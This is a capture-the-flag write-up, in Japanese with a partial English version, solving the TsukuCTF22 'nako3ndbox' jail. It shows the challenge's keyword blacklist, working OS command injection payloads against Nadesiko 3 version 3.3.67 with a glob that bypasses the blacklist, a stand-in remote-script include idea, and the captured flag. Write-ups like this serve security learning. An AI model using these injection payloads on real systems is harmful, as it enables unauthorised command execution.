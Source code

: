 ```yaml
---
title: nako3ndbox
description: なでしこのサンドボックス問題
author: Satoki
genre: Misc
solver: 6
point: 500
---
```


# nako3ndbox

## 問題文

に・ほ・ん・ご・で・あ・そ・ぼ  
`nc tsukuctf.sechack365.com 31418`

## 難易度

**medium**

## 作問にあたって

なでしこ 3 の修正済みである脆弱性を使った Jail 問題です。  
もともとは最新版を使い`！「http://ctf.example.com/attack.js」を取り込み`で RCE させようと思っていましたが、`ナデシコする`でうまく動かないため、見つけた脆弱性を用いる事にしました。  
一応、CVE-2022-41642 のバイパスなのでまだ CVE はついていません(頑張れば脆弱性なしで解けます)。

## 解法

なでしこ 3 を用いた Jail 問題のようだ。  
配布されたソースは以下のようであった。

```bash
「------------------------------------------------------------
             _        _____           _ _
 _ __   __ _| | _____|___ / _ __   __| | |__   _____  __
| '_ \ / _` | |/ / _ \ |_ \| '_ \ / _` | '_ \ / _ \ \/ /
| | | | (_| |   < (_) |__) | | | | (_| | |_) | (_) >  <
|_| |_|\__,_|_|\_\___/____/|_| |_|\__,_|_.__/ \___/_/\_\

------------------------------------------------------------」と言う

「日本語コード：」と尋ねる
それを入力に代入

ブラックリスト＝「読、開、保存、実行、起動、サーバ、フォルダ、ファイル、ナデシコ、ディレクトリ、flag」を「、」で区切る

ブラックリスト！＝空の間
　　ブラックリストの０から１を配列取り出す
　　もし（入力でそれの出現回数）！＝０ならば
　　　　「日本語の世界からは出しませんよ！！！」と言う
　　　　終了する
　　ここまで
ここまで

「｛入力｝」をナデシコする

終了する
```

入力された文字列をブラックリストで検証し、eval にあたる`ナデシコする`で実行している。  
ブラックリストがない場合、`「ls」を起動`などで RCE 可能だが今回は難しい。  
ここで配布されたファイルより、なでしこ 3 が最新版でなく、3.3.67 である点に注目する。  
GitHub の Issues を見てやると[cnako3 の圧縮解凍の問題](https://github.com/kujirahand/nadesiko3/issues/1325)が見つかる。  
複数のシングルクォートを圧縮解凍系の処理に含めることで、OS コマンドインジェクションが可能なようだ。  
この修正を参考に任意コード実行を行う。  
今回は以下のように`圧縮解凍ツールパス`の引数としてコマンドを与える。

```bash
$ nc tsukuctf.sechack365.com 31418
------------------------------------------------------------
             _        _____           _ _
 _ __   __ _| | _____|___ / _ __   __| | |__   _____  __
| '_ \ / _` | |/ / _ \ |_ \| '_ \ / _` | '_ \ / _ \ \/ /
| | | | (_| |   < (_) |__) | | | | (_| | |_) | (_) >  <
|_| |_|\__,_|_|\_\___/____/|_| |_|\__,_|_.__/ \___/_/\_\

------------------------------------------------------------
日本語コード：圧縮解凍ツールパスは「'';sleep 10;'」。「」を「」へ解凍
/bin/sh: ': not found
/bin/sh: : Permission denied
[実行時エラー]app(1行目): Command failed: ''\''';sleep 10;'' x '' -o'' -y
/bin/sh: ': not found
/bin/sh: : Permission denied
~~~
```

`sleep 10`を行うと 10 秒スリープした。  
フラグは`flag.txt`にあるので読みだせばよいが、`flag`がブラックリストにある。  
`./f*`などで回避してやればよい。  
コマンドの実行結果がなぜか出てこないことがあるので、`sh`に渡してエラーとして吐き出せばよい。

```bash
$ nc tsukuctf.sechack365.com 31418
------------------------------------------------------------
             _        _____           _ _
 _ __   __ _| | _____|___ / _ __   __| | |__   _____  __
| '_ \ / _` | |/ / _ \ |_ \| '_ \ / _` | '_ \ / _ \ \/ /
| | | | (_| |   < (_) |__) | | | | (_| | |_) | (_) >  <
|_| |_|\__,_|_|\_\___/____/|_| |_|\__,_|_.__/ \___/_/\_\

------------------------------------------------------------
日本語コード：圧縮解凍ツールパスは「'';sh ./f*;'」。「」を「」へ解凍
/bin/sh: ': not found
./flag.txt: line 1: TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}: not found
/bin/sh: : Permission denied
[実行時エラー]app(1行目): Command failed: ''\''';sh ./f*;'' x '' -o'' -y
/bin/sh: ': not found
./flag.txt: line 1: TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}: not found
/bin/sh: : Permission denied
~~~
```

flag が得られた。

## TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}

## Abstract

This is a Jail related to a known vulnerability in なでしこ 3
First I intended to make a RCE question by `！「http://ctf.example.com/attack.js」を取り込み`. However, `ナデシコする` didn't work well. Thats why I use the vulnerability instead.

## Solve

This seems Jail with なでしこ 3.
The ditributed source code is the following.

```

```

<!-- XXXX:なでしこソース追加 -->

This program execute the given strings with `ナデシコする` which corresponds to the eval command after given strings are checked.
You could RCE by `「ls」を起動` if it were not checked. We can't do this for this case.
Btw, this is ver 3.3.67 which is not the latest one and this has [an issue related to cnako3](https://github.com/kujirahand/nadesiko3/issues/1325)
This is OS command injection. You can use this vulnerability.

```bash
$ nc tsukuctf.sechack365.com 31418
------------------------------------------------------------
             _        _____           _ _
 _ __   __ _| | _____|___ / _ __   __| | |__   _____  __
| '_ \ / _` | |/ / _ \ |_ \| '_ \ / _` | '_ \ / _ \ \/ /
| | | | (_| |   < (_) |__) | | | | (_| | |_) | (_) >  <
|_| |_|\__,_|_|\_\___/____/|_| |_|\__,_|_.__/ \___/_/\_\

------------------------------------------------------------
日本語コード：圧縮解凍ツールパスは「'';sleep 10;'」。「」を「」へ解凍
/bin/sh: ': not found
/bin/sh: : Permission denied
[実行時エラー]app(1行目): Command failed: ''\''';sleep 10;'' x '' -o'' -y
/bin/sh: ': not found
/bin/sh: : Permission denied
~~~
```

`sleep 10` make the thread sleep for 10 seconds.
As the `flag` is blacklisted, you should specify like `./f*` to get `flag.txt`.
I don't know why but sometimes we can't get the result. So get the result as Error Message through `sh` instead.

```bash
$ nc tsukuctf.sechack365.com 31418
------------------------------------------------------------
             _        _____           _ _
 _ __   __ _| | _____|___ / _ __   __| | |__   _____  __
| '_ \ / _` | |/ / _ \ |_ \| '_ \ / _` | '_ \ / _ \ \/ /
| | | | (_| |   < (_) |__) | | | | (_| | |_) | (_) >  <
|_| |_|\__,_|_|\_\___/____/|_| |_|\__,_|_.__/ \___/_/\_\

------------------------------------------------------------
日本語コード：圧縮解凍ツールパスは「'';sh ./f*;'」。「」を「」へ解凍
/bin/sh: ': not found
./flag.txt: line 1: TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}: not found
/bin/sh: : Permission denied
[実行時エラー]app(1行目): Command failed: ''\''';sh ./f*;'' x '' -o'' -y
/bin/sh: ': not found
./flag.txt: line 1: TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}: not found
/bin/sh: : Permission denied
~~~
```

Now you get the FLAG.

## TsukuCTF22{y0u_jump3d_0u7_0f_j4p4n353}
